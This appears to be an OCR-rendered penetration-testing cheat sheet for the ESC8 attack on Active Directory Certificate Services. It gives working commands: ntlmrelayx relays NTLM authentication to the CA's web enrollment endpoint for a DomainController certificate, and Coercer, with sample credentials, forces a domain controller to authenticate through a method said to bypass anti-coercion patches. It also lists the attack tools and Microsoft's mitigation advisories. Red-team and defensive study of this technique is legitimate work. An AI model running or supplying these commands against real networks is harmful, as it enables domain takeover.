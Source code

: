 **Step 1: Set Up an NTLM Listener on Target Host**:
```powershell
ntlmrelayx.py -t http://ca.corp/certsrv/certfnsh.asp -smb2support --adcs --template 'DomainController'
```

**Step 2: Coerce Authentication to AD CS HTTP Endpoint**

Using **Coercer** to initiate NTLM authentication:
```powershell
Coercer.py coerce -l cb-ws.domain.corp -t dc.corp -u user -p 'IamtheF!rstStud3nt#' -d domain.corp -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

In this command:

- **ntlmrelayx.py**: Sets up the NTLM relay listener, targeting an **AD CS enrollment** endpoint.
- **Coercer.py**: Initiates coerced NTLM authentication using an alternative RPC method (`EfsRpcDuplicateEncryptionInfoFile`) to bypass the recent anti-coercion patches.

---

### Cheatsheet

**ESC8** abuses NTLM relaying to AD CS **HTTP endpoints** for privilege escalation. By coercing NTLM authentication, attackers can relay to AD CS endpoints for certificate enrollment, which can provide elevated domain privileges.

### Key Tools and References

- **PetitPotam**: [GitHub Repository](https://github.com/topotam/PetitPotam)
- **ntlmrelayx** (part of Impacket): [GitHub Repository](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
- **AD CSPwn**: [GitHub Repository](https://github.com/bats3c/ADCSPwn)
- **Coercer**: [GitHub Repository](https://github.com/p0dalirius/Coercer)
- **Microsoft Anti-PetitPotam Patch**: [Microsoft Support](https://support.microsoft.com/en-gb/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429)
- **Spool Sample Patch**: [Microsoft MSRC Blog](https://msrc-blog.microsoft.com/2021/07/08/clarified-guidance-for-cve-2021-34527-windows-print-spooler-vulnerability/)
- **Alternate Coercion Techniques**: [Snovvcrash on Twitter](https://twitter.com/snovvcrash/status/1552937086587650048), [Coercer Alternate Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)

### Steps to Execute

**Set Up NTLM Relay Listener**:
```powershell
ntlmrelayx.py -t http://ca.corp/certsrv/certfnsh.asp -smb2support --adcs --template 'DomainController'
```

**Coerce NTLM Authentication**:

Use **Coercer** or another method to initiate NTLM authentication.
